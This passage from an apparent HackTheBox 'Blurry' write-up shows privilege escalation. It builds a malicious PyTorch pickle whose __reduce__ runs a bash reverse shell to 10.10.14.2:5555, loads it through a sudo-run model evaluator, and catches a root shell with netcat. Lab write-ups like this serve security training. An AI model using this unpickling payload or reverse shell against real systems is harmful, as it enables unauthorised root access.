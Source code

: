 During a model evaluation, the Pytorch model here is unpickled with the help of the pickle library. This [post](https://medium.com/@coding-otter/understanding-pickle-risks-essential-knowledge-for-data-scientists-1f187feb455b) explains how to create malicious models that will execute arbitrary commands on the target when unpickled. Since we have write permission on the /models directory we can create a malicious model in that directory and run the /usr/bin/evaluate_model as root on that model to execute commands as root on the target.
```bash
jippity@blurry:~$ ls -l /
total 64
<SNIP>
drwxr-xr-x   2 root root     4096 Nov  7  2023 mnt
drwxrwxr-x   2 root jippity  4096 Aug  1 11:37 models
<SNIP>
```

To create our model we can run the script below on the target.
```bash
jippity@blurry:/tmp$ cat << EOF > mal_model.py
heredoc> import torch
import os
import pickle

class EvilStuff:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.2/5555 0>&1"',))

evilstuff = EvilStuff()
torch.save(evilstuff, "very_safe_model.pth")
heredoc> EOF

jippity@blurry:/tmp$ python3 mal_model.py 
jippity@blurry:/tmp$ ls -l
<SNIP>
-rw-r--r-- 1 jippity jippity     960 Sep 22 06:37 very_safe_model.pth  
```

Here we will execute a reverse shell command so, let's start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackthBox/Machines/Blurry]
└─$nc -lvnp 5555
listening on [any] 5555 ...
```

Now that our listener is set, we can copy the malicious Pytorch model to the /models directory and execute the /usr/bin/evaluate_model script with sudo privileges.
```bash
jippity@blurry:/tmp$ cp very_safe_model.pth  /models/
jjippity@blurry:/tmp$ sudo /usr/bin/evaluate_model  /models/very_safe_model.pth 
[+] Model /models/very_safe_model.pth is considered safe. Processing...
```

If we go back to our listener we will see a reverse shell connection from the target's root user. We can use this access to read the second flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackthBox/Machines/Blurry]
└─$nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.19] 35772
root@blurry:/tmp# ls /root
ls /root
datasets
root.txt
root@blurry:/tmp# 
```
